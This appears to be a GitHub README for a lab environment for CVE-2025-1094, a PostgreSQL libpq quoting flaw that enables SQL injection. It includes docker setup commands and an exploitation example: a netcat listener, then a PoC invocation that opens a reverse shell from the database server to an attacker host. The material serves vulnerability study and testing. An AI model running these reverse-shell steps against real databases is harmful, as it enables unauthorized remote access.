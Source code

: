 # CVE-2025-1094
Improper neutralization of quoting syntax in PostgreSQL libpq functions PQescapeLiteral(), PQescapeIdentifier(), PQescapeString(), and PQescapeStringConn() allows a database input provider to achieve SQL injection in certain usage patterns. Specifically, SQL injection requires the application to use the function result to construct input to psql, the PostgreSQL interactive terminal. Similarly, improper neutralization of quoting syntax in PostgreSQL command line utility programs allows a source of command line arguments to achieve SQL injection when client_encoding is BIG5 and server_encoding is one of EUC_TW or MULE_INTERNAL. Versions before PostgreSQL 17.3, 16.7, 15.11, 14.16, and 13.19 are affected.

## Metrics
CVSSv3: 8.1 (HIGH)

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
Start a Netcat listener to listen for shell connections.
```shell
nc -lvnp 4444
```
Run the PoC script to obtain a remote shell.
```shell
python3 CVE_2025_1094.py --host 172.90.240.1 -p 5432 -d testdb -u postgres --password postgres --lhost 192.168.93.63 --lport 4444
```
## Exploits and PoCs
https://hackyboiz.github.io/2025/04/30/clalxk/CVE-2025-1094/  
## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-1094](https://nvd.nist.gov/vuln/detail/cve-2025-1094)
[Hackyboiz: [One line a day] CVE-2025-1094: RCE due to SQL injection vulnerability in PostgreSQL 14.15](https://hackyboiz.github.io/2025/04/30/clalxk/CVE-2025-1094/)  
[Hackernews: PostgreSQL Vulnerability Exploited Alongside BeyondTrust Zero-Day in Targeted Attacks](https://thehackernews.com/2025/02/postgresql-vulnerability-exploited.html)  
[Rapid7: CVE-2025-1094: PostgreSQL psql SQL injection (FIXED)](https://www.rapid7.com/blog/post/2025/02/13/cve-2025-1094-postgresql-psql-sql-injection-fixed/)